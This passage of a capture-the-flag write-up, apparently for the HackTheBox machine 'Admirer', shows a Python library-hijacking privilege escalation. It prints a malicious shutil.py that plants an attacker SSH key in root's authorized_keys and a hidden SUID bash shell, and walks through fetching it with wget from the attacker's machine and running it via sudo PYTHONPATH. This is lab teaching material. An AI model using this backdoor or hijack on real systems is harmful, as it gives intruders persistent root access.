    #!/usr/bin/python3
    
    import os
    
    def make_archive(a,b,c):
        pass
    
    os.system("mkdir -p /root/.ssh; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFFzFsH+WX95lqeCJkOp6cRZufRzw8pGqdoj1q4NL9LmPvtDCiGxsDb5D+vF6rXMrW0cqH3P4kYiTG8+RLrolGFTkR+V/2CXDmABQx5T640fCH77oiMF8U9uoKGS+ow5vA4Vq4QqKFsu+J9qn/sMbLCJ/      874tay6a1ryPJdtjj0SxTems1p2WgklYiZZKKscmYH4+dMtHMdQAKv3CTpWbSE7De4UvAUFvxiKS1yHLh8QF5L0YCUZ42pNtzZ4CHPRojxJZKbOHhTOJms4CLi3CXN/ZEpPijt0mJaGrxnA3oOkOFIscqoeXYFybTs82KzKqwwP4Y6ACWJwk1Dqrv37I/L+9YU/8Rv5b+r0/c1p9lZ1pnnjRt46g/              kocnY3AZxcbmDUHx5wAlsNwK8s5Aw+IOicBYCOIv2KyXUT61/lW2iUTBIiMh0yrqehLfJ7HS3pSycQnWdVPoRbmCfvuJqQGyaJMu+ceqYqpwHEBoUlIjKnSHF30aHKL5ALFREEo1FCc= root@kali' >> /root/.ssh/authorized_keys")
    os.system('cp /bin/bash /var/tmp/.0xdf; chown root:root /var/tmp/.0xdf; chmod 4755 /var/tmp/.0xdf')
    

This script uses `os.system` to do each of the things described above. The
first calls `mkdir -p` which will create the directory if it doesn’t exist,
and happily return and continue if it does. Then it uses `echo` to append my
key to `authorized_keys`.

The second simply copies `/bin/bash` to `/var/tmp/.0xdf`, sets the owner as
root, and sets the permissions to SUID.

I also included a definition of the `make_archive` function. This will prevent
the script from crashing. This is unnecessary in this case where I’m the user
running the script. But if I were leaving this for an unsuspecting user to
come along and run later, this will prevent errors from being thrown when
`backup.py` tries to load the function. If I wanted to go further, I could
have this function actually create the archives as expected.

#### Run It

Now I’ll run this exploit with two commands. Upload it to Admirer with
`python3 -m http.server 80` on my VM and `wget`:

    
    
    waldo@admirer:/var/tmp$ wget 10.10.14.47/exploit.py -O shutil.py
    --2020-05-05 12:14:50--  http://10.10.14.47/exploit.py
    Connecting to 10.10.14.47:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 800 [text/plain]
    Saving to: ‘shutil.py’
    
    shutil.py                         100%[===========================================================>]     800  --.-KB/s    in 0s      
    
    2020-05-05 12:14:50 (123 MB/s) - ‘shutil.py’ saved [800/800]
    

Run `admin_tasks.sh` calling the web backup option (6):

    
    
    waldo@admirer:/var/tmp$ sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
    Running backup script in the background, it might take a while...
    
